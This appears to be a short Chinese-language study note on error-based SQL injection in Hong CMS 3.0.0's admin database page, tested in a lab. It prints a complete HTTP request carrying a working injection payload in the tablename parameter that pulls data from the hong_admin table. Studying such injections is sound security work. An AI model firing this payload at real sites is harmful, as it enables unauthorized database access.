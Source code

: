 # 0x00 前言
360的笔试和前两天的面试都问道这个问题了，只不过360是sql server，然后后来的面试问的是MySQL，以前感觉自己好像都会了，但是当真正遇到问题才发现不是想想中的样子。。

# 0x01 先来MySQL（这个环境好搭建一点）
环境
- Windows server2008
- IIS7+php5+mysql5.0.22
- Hong cms 3.0.0

# 0x02 注入payload

参考[Hongcms 3.0.0后台SQL注入漏洞分析](https://www.freebuf.com/vuls/178316.html)
采用报错注入，因为
```
GET /admin/index.php/database/operate?dbaction=emptytable&tablename=hong_vvc%60where%20vvcid=1%20or%20(select%201%20from%20(select%20count(*),concat((select%20loginnum%20from%20hong_admin),floor(rand(0)*2))x%20from%20information_schema.tables%20group%20by%20x)a)%20or%20%60 HTTP/1.1
Host: 192.168.72.131
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://192.168.72.131/admin/index.php/database
Connection: keep-alive
Cookie: O0oqZrypyswqadmin=104918af865ae8146284b36ed2c5c907
Upgrade-Insecure-Requests: 1
```